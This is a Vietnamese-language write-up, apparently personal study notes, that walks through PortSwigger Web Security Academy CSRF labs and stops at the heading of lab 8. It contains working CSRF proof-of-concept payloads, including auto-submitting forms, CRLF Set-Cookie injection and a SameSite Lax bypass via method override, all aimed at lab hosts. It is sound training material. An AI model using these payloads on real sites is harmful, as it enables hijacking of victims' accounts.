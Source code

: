 # CSRF lab

### 1. CSRF vulnerability with no defenses
https://portswigger.net/web-security/csrf/lab-no-defenses

Đăng nhập vào `wiener:peter` sau đó thay đổi email, do việc này không có csrf token cũng không có xác thực mật khẩu nên ta tạo form rồi gửi cho `carlos`

---

### 2. CSRF where token validation depends on request method
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

Context: ở đây khi dùng POST để đổi email thì cần có thêm `csrf` token, nhưng khi đổi sang GET thì không cần `csrf` token

![alt text](image.png)

![alt text](image-1.png)

Từ đây ta tạo csrf form để gửi đi. 

---

### 3. CSRF where token validation depends on token being present
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present

Ở bài này việc xóa đi csrf token trong POST không ảnh hưởng đến kết quả.

![alt text](image-2.png)

Từ đây ta tạo payload.

---

### 4. CSRF where token is not tied to user session
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

Context: 

1. Csrf token ảnh hưởng đến xử lý, không thể xóa, hay sử dụng trùng nhau
2. Email trùng với tài khoản khác sẽ không hợp lệ, dẫn đến các lần thay đổi sau đó sẽ ko được do csrf token không thay đổi mỗi phiên đăng nhập nên chỉ sử dụng được 1 lần

Nhưng ở đây khi lấy csrf token của phiên đăng nhập của Carlos để gửi với change-email của weiner thì vẫn thành công do chưa sử dụng lần nào và nó tạo ra cho 1 phiên.\
![alt text](image-3.png)

![alt text](image-4.png)

![alt text](image-5.png)

Từ đây ta đăng nhập 1 tài khoản và lấy csrf token cho phiên đó để gửi cho victim.

---

### 5. CSRF where token is tied to non-session cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie

Context:

1. Khi update thì sẽ có cookie `csrfKey` và `csrf` token ở form, và 2 cái này tồn tại theo cặp, dù đổi người dùng thì nếu thay đổi cả 2 giá trị này theo cặp thì vẫn có thể request thành công. 

=> Ta cần đổi cookie `csrfKey` của victim và rồi từ đó có thể dùng `csrf` token của mình

Mặt khác, khi dùng chức năng search, thông tin sẽ được phản hồi ở `Set-cookie` ở response, vậy nên ta sẽ cố gắng chèn thêm `Set-cookie` ở response bằng cách dùng `%0d%0a` là `\r\n`:

![alt text](image-6.png)

Payload: 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aec003503cf58e580948f3d0053007b.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="4ZTQjukf9UX8toqgbTThbm8F16k9F2jO" />
        <input type="submit" value="Submit request" />
    </form>


    <img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

---

### 6. CSRF where token is duplicated in cookie
https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie

Context: Bài này `csrf` token sẽ trùng với `csrf` cookie

Vẫn tương tự bài trước thì `Search` sẽ được thể hiện qua cookie

Ta sẽ chỉ cần tạo 1 fake csrf token và csrf cookie giống nhau ở phía victim:

Payload:

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="absssa&#64;gmail&#46;net" />
        <input type="hidden" name="csrf" value="XBeN2PtpvYuFiueM15QTTYjQu37nWczz" />
        <input type="submit" value="Submit request" />
    </form>


    <img src="https://0afa004403c0e408818f0cbd00de0051.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=XBeN2PtpvYuFiueM15QTTYjQu37nWczz%3b%20SameSite=None" onerror="document.forms[0].submit()">
  </body>
</html>
```

---

### 7. SameSite Lax bypass via method override
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override

Context: Cần bypass `Samesite: Lax`

![alt text](image-7.png)

Ở phần change-email thì không có sự xuất hiện của csrf token, nhưng khi attack theo kiểu truyền thống thì không thành công, có thể do cần thêm cookie để xác nhận. 

![alt text](image-8.png)

Mặt khác, cookie được tạo và không đặt `Samesite` nên mặc định nó là `Lax`. Với Lax cookie chỉ được include vào request khi đó là `GET` và đến 1 URL cấp cao hơn.

Nhưng khi chuyển qua `GET` nó đang không cho phép request:\
![alt text](image-9.png)

Thêm parameter `_method=POST` (ghi đè method) thì nó thành công:\
![alt text](image-10.png)

Payload: 
```js
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@web-security-academy.net&_method=POST";
</script>
```

Tham khảo cách khác để ghi đè method: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/

---

### 8. SameSite Strict bypass via client-side redirect
https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect






